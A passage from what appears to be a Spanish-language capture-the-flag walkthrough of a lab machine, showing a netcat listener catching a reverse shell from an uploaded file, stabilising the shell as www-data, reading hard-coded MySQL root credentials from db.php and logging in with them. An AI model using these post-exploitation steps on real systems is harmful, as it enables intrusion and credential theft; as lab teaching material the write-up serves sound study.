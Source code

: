Una vez que nos metamos en `/uploads/shell.ceng` estando a la escucha...

```shell
nc -lvnp <PORT>
```

Nos creara una shell con el usuario `www-data` por lo que lo tendremos que sanitizar la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos al archivo `db.php` que vimos antes haciendo un...

```shell
cd /var/www/html/masteradmin
```

```shell
cat db.php
```

Veremos lo siguiente...

```
<?php
$serverName = "localhost";
$username = "root";
$password = "SuperS3cR3TPassw0rd1!";
$dbName = "cengbox";
//Create Connection
$conn = new mysqli($serverName, $username, $password,$dbName);

//Check Connection
if($conn->connect_error){
        die("Connection Failed: ".$conn->connect_error);
} else { }
?>
```

Lo que sugiere que nos podremos conectar como `root` a `mysql`...

```shell
mysql -h localhost -u root -pSuperS3cR3TPassw0rd1!
```
